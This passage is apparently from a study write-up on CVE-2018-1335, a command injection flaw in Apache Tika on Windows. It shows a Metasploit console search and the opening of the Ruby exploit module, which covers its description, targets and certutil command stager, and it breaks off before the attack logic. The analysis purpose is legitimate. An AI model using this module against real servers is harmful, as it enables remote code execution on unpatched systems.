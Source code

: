 ```console

       =[ metasploit v6.4.34-dev                          ]
+ -- --=[ 2461 exploits - 1267 auxiliary - 431 post       ]
+ -- --=[ 1471 payloads - 49 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search CVE-2018-1335

Matching Modules
================

#  Name                  Disclosure Date  Rank   Check  Description
-  ----                  ---------------  ----   -----  -----------
0  apache_tika_jp2_jscript 2018-04-25   excellent Yes  Apache Tika Header Command Injection

```
### Analysis
First, we need to fully **understand** what this **exploit** is doing & how it **works**.
```rb
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::CmdStager
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Powershell
  prepend Msf::Exploit::Remote::AutoCheck

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Apache Tika Header Command Injection',
      'Description'    => %q{
          This module exploits a command injection vulnerability in Apache
        Tika 1.15 - 1.17 on Windows.  A file with the image/jp2 content-type is
        used to bypass magic bytes checking.  When OCR is specified in the
        request, parameters can be passed to change the parameters passed
        at command line to allow for arbitrary JScript to execute. A
        JScript stub is passed to execute arbitrary code. This module was
        verified against version 1.15 - 1.17 on Windows 2012.
        While the CVE and finding show more versions vulnerable, during
        testing it was determined only > 1.14 was exploitable due to
        jp2 support being added.
      },
      'License'        => MSF_LICENSE,
      'Privileged'     => false,
      'Platform'       => 'win',
      'Targets'        =>
        [
          ['Windows',
            {'Arch' => [ARCH_X86, ARCH_X64],
            'Platform' => 'win',
            'CmdStagerFlavor' => ['certutil']
            }
          ]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => '2018-04-25',
      'Author' =>
```